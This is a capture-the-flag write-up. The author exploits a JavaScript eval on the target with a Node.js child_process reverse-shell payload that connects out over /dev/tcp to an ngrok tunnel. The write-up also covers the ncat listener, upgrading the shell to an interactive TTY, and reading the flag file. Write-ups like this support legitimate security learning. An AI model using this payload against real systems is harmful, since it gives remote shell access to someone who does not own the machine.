


I first checked and saw i can execute `js`, because it uses `eval`.

Then, I found this [simple nodejs rce exploit](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6), which gave me this quick reverse shell:
```js
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

I set a listening port in powershell and also `ngrok` tunnel:
```ps
ncat -nvlp 777
```
And ngrok:
```powershell
ngrok tcp 777
```
Then, we got this:
```
tcp://2.tcp.us-cal-1.ngrok.io:11453 -> localhost:777
```
So the payload will be:
```
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/2.tcp.us-cal-1.ngrok.io/11453+0>%261"')
```

Now, just send it and we get connection on the listening port


For my convinece, I'm running this set of commands from `hack tools` extension for chrome:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
*Ctrl + Z*
```bash
stty raw -echo; fg
stty rows 38 columns 116
```

And know our shell is ready!

we simply run:
```bash
ls -la
cd S3cr3tEv0d3f0ld3r
ls
cat Ev0d3fl4g
```



**Flag:** **_`D0n0tTru5tEv0d3B4nK!`_**
